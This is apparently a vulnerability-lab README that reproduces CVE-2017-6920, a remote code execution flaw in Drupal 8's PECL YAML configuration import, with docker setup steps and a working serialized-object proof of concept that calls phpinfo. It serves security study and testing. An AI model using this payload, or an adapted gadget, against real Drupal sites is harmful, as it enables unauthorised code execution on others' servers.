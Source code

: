 # Drupal Core 8 PECL YAML Deserialization Remote Code Execution (CVE-2017-6920)

[中文版本(Chinese version)](README.zh-cn.md)

Drupal is a free and open-source web content management framework written in PHP.

A remote code execution vulnerability exists in Drupal 8.x through 8.3.4 when using the PECL YAML parser. The vulnerability is caused by unsafe deserialization of YAML content, allowing attackers to execute arbitrary code.

References:

- <https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2017-06-21/drupal-core-multiple>
- <https://paper.seebug.org/334/>

## Environment Setup

Execute the following command to start a vulnerable Drupal 8.3.0 server:

```
docker compose up -d
```

After the server is started, visit `http://your-ip:8080/` to access the Drupal installation page. Follow the default configuration steps to complete the installation. Since there is no MySQL environment, you can choose SQLite as the database.

## Vulnerability Reproduction

To reproduce this vulnerability, first log in to the Drupal site with administrator credentials. Once logged in, navigate to the configuration import page at `http://127.0.0.1:8080/admin/config/development/configuration/single/import`.

Select "Simple configuration" for Configuration type, enter any name for Configuration name, and paste the following PoC in "Paste your configuration here":

```php
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

![1](1.png)

Click "Import" and you will see the vulnerability has been successfully triggered, displaying the phpinfo page:

![2](2.png)

> Note: Although official CPE information indicates this vulnerability exists since version 8.0.0, our testing shows it can only be reproduced in Drupal 8.3.0, not in 8.0.0.
